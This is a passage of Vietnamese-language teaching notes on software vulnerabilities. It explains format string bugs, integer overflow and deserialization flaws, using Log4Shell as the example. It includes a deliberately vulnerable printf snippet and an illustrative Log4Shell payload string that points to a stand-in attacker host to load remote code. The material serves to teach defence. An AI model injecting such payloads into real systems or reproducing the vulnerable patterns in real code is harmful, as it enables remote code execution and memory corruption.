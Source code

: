 ### 3. Một số lỗ hổng phần mềm khác

Ngoài tràn bộ đệm, còn có nhiều loại lỗ hổng phần mềm khác mà kẻ tấn công có thể khai thác để chiếm quyền điều khiển hệ thống.

#### 3.1. Lỗ hổng xâu định dạng (Format String Vulnerability)

Đây là một lỗ hổng nghiêm trọng, thường xuất hiện trong các hàm vào/ra của ngôn ngữ C như `printf`, `scanf`.

* **Khái niệm:** Lỗ hổng xảy ra khi lập trình viên sử dụng trực tiếp một chuỗi ký tự do người dùng cung cấp làm **xâu định dạng (format string)** cho hàm, thay vì truyền nó như một tham số thông thường.
* **Ví dụ về code có lỗ hổng:**
    ```c
    char buf[32];
    fgets(buf, sizeof(buf), stdin);
    printf(buf); // LỖ HỔNG!
    ```
    Cách viết đúng phải là: `printf("%s", buf);`.
* **Cơ chế khai thác:**
    * Khi hàm `printf` gặp các ký tự định dạng như `%d`, `%s`, `%x` trong xâu định dạng, nó sẽ mong đợi có các tham số tương ứng được đẩy vào stack.
    * Nếu lập trình viên viết `printf(buf)`, và trong `buf` do người dùng nhập vào có chứa các ký tự định dạng, `printf` sẽ đọc các giá trị ngay trên stack (vốn không phải là tham số của nó) và hiển thị ra.
* **Hậu quả:**
    * **Đọc dữ liệu nhạy cảm:** Bằng cách đưa vào các chuỗi như `"%x %x %x ..."` kẻ tấn công có thể làm lộ các giá trị trên stack, bao gồm biến cục bộ, địa chỉ trả về, và thậm chí cả giá trị "canary" dùng để chống tràn bộ đệm. 
    * **Ghi đè bộ nhớ:** Ký tự định dạng `%n` đặc biệt nguy hiểm. Nó không hiển thị giá trị mà **ghi số lượng ký tự đã được in ra cho đến thời điểm đó vào một địa chỉ bộ nhớ** được cung cấp làm tham số.  Kẻ tấn công có thể lợi dụng `%n` để ghi một giá trị bất kỳ vào một địa chỉ bất kỳ trên stack, ví dụ như ghi đè lên địa chỉ trả về (RIP). 

#### 3.2. Lỗ hổng tràn số nguyên (Integer Overflow)

* **Khái niệm:** Trong máy tính, các kiểu dữ liệu số nguyên (như `int`, `short`) có một dải biểu diễn hữu hạn. Tràn số nguyên xảy ra khi một phép toán số học tạo ra một kết quả nằm ngoài dải biểu diễn này, khiến giá trị bị "quay vòng". 
    * **Ví dụ (số nguyên có dấu 32-bit):** `0x7FFFFFFF` (số dương lớn nhất) `+ 1` sẽ trở thành `0x80000000` (số âm nhỏ nhất).
    * **Ví dụ (số nguyên không dấu 32-bit):** `0xFFFFFFFF` (số dương lớn nhất) `+ 1` sẽ trở thành `0`.
* **Hậu quả:** Việc không kiểm soát hiện tượng tràn số nguyên có thể dẫn đến các hành vi không mong muốn và thường là nguyên nhân gốc rễ của các lỗ hổng tràn bộ đệm. 
    * **Ví dụ 1:** Một chương trình nhận một giá trị độ dài `len` (kiểu `unsigned int`) từ người dùng và kiểm tra `if (len > 1024)`. Nếu kẻ tấn công gửi `len = -1`, giá trị này sẽ được hiểu là `0xFFFFFFFF` khi ép kiểu sang không dấu. Điều kiện kiểm tra `0xFFFFFFFF > 1024` sẽ đúng, nhưng khi giá trị `0xFFFFFFFF` này được truyền vào hàm `memcpy`, nó sẽ gây ra một vụ tràn bộ đệm cực lớn. 
    * **Ví dụ 2:** Một chương trình cấp phát bộ nhớ bằng lệnh `malloc(len * sizeof(int))`. Nếu `len` là một số rất lớn (ví dụ `0x40000001`), phép nhân `len * 4` có thể bị tràn và cho ra một kết quả rất nhỏ (ví dụ `0x00000004`). `malloc` sẽ cấp phát một vùng nhớ nhỏ hơn rất nhiều so với yêu cầu, dẫn đến tràn bộ đệm trên heap khi chương trình cố gắng ghi `len` phần tử vào đó. 

#### 3.3. Lỗ hổng Serialization

* **Serialization:** Là cơ chế cho phép chuyển một đối tượng trong bộ nhớ thành một luồng byte để có thể lưu trữ hoặc truyền qua mạng. **Deserialization** là quá trình ngược lại. 
* **Lỗ hổng:** Xảy ra khi một ứng dụng thực hiện deserialization trên một luồng byte không đáng tin cậy mà không có sự kiểm tra, xác thực chặt chẽ. 
* **Khai thác:** Kẻ tấn công có thể tạo ra một luồng byte độc hại. Khi được giải mã, nó sẽ tạo ra một đối tượng trong bộ nhớ của ứng dụng và có thể dẫn đến việc thực thi mã từ xa. 
* **Ví dụ nổi tiếng: Lỗ hổng Log4Shell (Log4j):**
    * Log4j là một thư viện ghi nhật ký (logging) cực kỳ phổ biến trong các ứng dụng Java. 
    * Nó có một tính năng cho phép phân tích cú pháp và thực thi các chuỗi đặc biệt trong nội dung nhật ký. 
    * Kẻ tấn công có thể lừa ứng dụng ghi một chuỗi nhật ký độc hại như `${jndi:ldap://attacker.com/pwnage}`. 
    * Khi Log4j xử lý chuỗi này, nó sẽ kết nối đến máy chủ của kẻ tấn công, tải về một đối tượng Java độc hại và thực hiện deserialization, dẫn đến việc thực thi mã từ xa. Đây là một trong những lỗ hổng nguy hiểm nhất trong thập kỷ qua.